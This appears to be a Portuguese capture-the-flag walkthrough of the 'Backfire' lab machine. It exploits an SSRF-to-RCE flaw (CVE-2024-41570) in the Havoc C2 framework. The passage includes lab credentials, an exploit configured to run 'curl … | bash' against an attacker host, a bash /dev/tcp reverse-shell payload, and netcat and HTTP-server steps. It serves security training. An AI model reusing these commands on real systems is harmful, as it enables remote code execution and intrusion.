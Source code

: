 No arquivo temos algumas credenciais expostas. Então pesquisei para verificar se havia alguma CVE já conhecida. Nesse caso havia a ``CVE-2024-41570`` de um ``SSRF`` que leva a um ``RCE``.
![[Pasted image 20250325113117.png]]

Podemos também adicionar `backfire.htb` no nosso arquivo de hosts.
```sh
echo "10.10.11.49    backfire.htb" >> /etc/hosts
```

> [!info] Análise
>Reserve um tempo para ler a análise do [Post](https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/) sobre a vulnerabilidade.

***
# RCE
Então busquei algum exploit, e escolhi o primeiro que apareceu.
![[Pasted image 20250325082608.png]]
Exploit : https://github.com/thisisveryfunny/CVE-2024-41570-Havoc-C2-RCE?tab=readme-ov-file

Podemos clona-lo e instalar suas dependências.
```sh
git clone https://github.com/thisisveryfunny/CVE-2024-41570-Havoc-C2-RCE?tab=readme-ov-file
cd CVE-2024-41570-Havoc-C2-RCE
pip3 install -r requirements.txt
```
#### Modificando o exploit
Temos que modificar o`exploit.py` para as configurações que achamos. `port` e `host`, são os que estão no ``Listeners{...}``.
**exploit.py**
```python 
212  USER = "sergej" # CHANGE THIS
213  PASSWORD = "1w4nt2sw1tch2h4rdh4tc2" # CHANGE THIS
214  host = "backfire.htb" # CHANGE THIS
215  port = 8443 # CHANGE THIS
232  cmd = "curl http://10.10.15.28:8000/payload.sh | bash" # CHANGE THE IP AND THE PORT
```

No `payload.sh` devemos colocar algum comando que queremos executar.
**payload.sh**
```sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.15.28/4545 0>&1 # CHANGE THIS
```
#### Executando
Primeiro temos que colocar um `listener` como o ``nc`` ou o `netcat` para ouvir a porta na qual vamos receber a `shell`. Como definido no `payload.sh`.
```sh
nc -lvnp 4545
```

Depois devemos servir nossa payload na porta que definimos no `exploit.py`.
```sh
python -m http.server -p 8000
```
